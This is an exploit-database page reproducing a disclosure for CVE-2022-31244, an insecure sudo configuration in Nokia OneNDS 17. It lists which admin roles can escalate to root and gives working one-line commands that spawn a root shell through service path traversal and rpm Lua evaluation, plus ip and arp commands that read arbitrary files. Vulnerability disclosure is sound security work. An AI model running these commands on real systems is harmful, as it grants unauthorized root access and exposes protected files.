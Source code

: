 ```yaml
---
title: Nokia OneNDS 17 Insecure Permissions / Privilege Escalation exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171970&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-22
fetch_date: 2025-10-04T11:31:25.450514
---
```


# Nokia OneNDS 17 Insecure Permissions / Privilege Escalation exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Nokia OneNDS 17 Insecure Permissions / Privilege Escalation CVE-2022-31244

2023-04-21 | CVSS 6.3

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171970
===============================================================================
title: Incorrect Permission Assignment
product: Nokia OneNDS 17
vulnerability type: Security Misconfiguration
severity: High
CVSS Score: 7.8
CVSS Vector: CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
found on: 31/03/2022
by: Giacomo Sighinolfi, Milena Mangiola,
Savino Sisco, Valerio Casalino
cve: CVE-2022-31244
===============================================================================

Some sudo permissions can be exploited by the users that have specific roles
to escalate to root privileges and execute arbitrary commands on the system.

The affected roles are:
ONENDS_CC_BASIC_ADMIN:
- it can run /sbin/service
- can be exploited using `sudo /sbin/service ../../bin/sh`
ONENDS_CC_SERVICE_ADMIN:
- it can run /bin/rpm
- can be exploited using `sudo /bin/rpm --eval '%{lua:os.execute("/bin/sh")}'`
ONENDS_CC_NETWORK_MANAGEMENT:
- it can run /sbin/ip,/sbin/arp
- can be exploited using `sudo /sbin/ip -force -batch 'file_to_read'`
- can be exploited using `sudo /sbin/arp -v -f 'file_to_read'`

===============================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)